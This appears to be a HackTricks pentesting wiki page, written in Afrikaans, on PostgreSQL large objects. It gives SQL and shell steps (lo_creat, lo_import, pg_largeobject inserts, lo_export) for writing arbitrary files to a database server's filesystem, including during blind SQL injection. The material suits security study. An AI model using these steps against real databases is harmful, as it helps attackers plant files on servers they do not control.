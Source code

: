 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### PostgreSQL Groot Voorwerpe

PostgreSQL bied 'n struktuur bekend as **groot voorwerpe**, toeganklik via die `pg_largeobject` tabel, ontwerp om groot datatipe, soos beelde of PDF-dokumente, te stoor. Hierdie benadering is voordelig bo die `COPY TO` funksie aangesien dit die **uitvoer van data terug na die lêerstelsel** moontlik maak, wat verseker dat 'n presiese replika van die oorspronklike lêer gehandhaaf word.

Om 'n **volledige lêer** binne hierdie tabel te stoor, moet 'n voorwerp in die `pg_largeobject` tabel geskep word (geïdentifiseer deur 'n LOID), gevolg deur die invoeging van datastukke, elk 2KB in grootte, in hierdie voorwerp. Dit is van kardinale belang dat hierdie stukke presies 2KB in grootte is (met die moontlike uitsondering van die laaste stuk) om te verseker dat die uitvoerfunksie korrek werk.

Om jou **binaire data** in 2KB stukke te verdeel, kan die volgende opdragte uitgevoer word:
```bash
split -b 2048 your_file # Creates 2KB sized files
```
Vir die kodering van elke lêer in Base64 of Hex, kan die onderstaande opdragte gebruik word:
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**Belangrik**: Wanneer jy hierdie proses outomatiseer, verseker dat jy stukke van 2KB van duidelike teks bytes stuur. Hex-gecodeerde lêers sal 4KB data per stuk vereis weens die verdubbeling in grootte, terwyl Base64-gecodeerde lêers die formule `ceil(n / 3) * 4` volg.

Die inhoud van die groot voorwerpe kan vir foutopsporing doeleindes besigtig word met:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Using `lo_creat` & Base64

Om binêre data te stoor, word 'n LOID eers geskep:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
In situasies wat presiese beheer vereis, soos om 'n Blind SQL Injection te benut, word `lo_create` verkies om 'n vaste LOID te spesifiseer.

Data stukke kan dan soos volg ingevoeg word:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
Om die groot objek na gebruik te eksporteer en moontlik te verwyder:
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### Gebruik van `lo_import` & Hex

Die `lo_import` funksie kan gebruik word om 'n LOID vir 'n groot objek te skep en te spesifiseer:
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
Na die skep van die objek, word data per bladsy ingevoeg, wat verseker dat elke stuk nie 2KB oorskry nie:
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
Om die proses te voltooi, word die data uitgevoer en die groot objek verwyder:
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### Beperkings

Dit word opgemerk dat **groot voorwerpe dalk ACL's** (Toegangsbeheerlys) het, wat toegang kan beperk selfs tot voorwerpe wat deur jou gebruiker geskep is. egter, ouer voorwerpe met toegeeflike ACL's mag steeds toeganklik wees vir inhoudsuitvoer.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
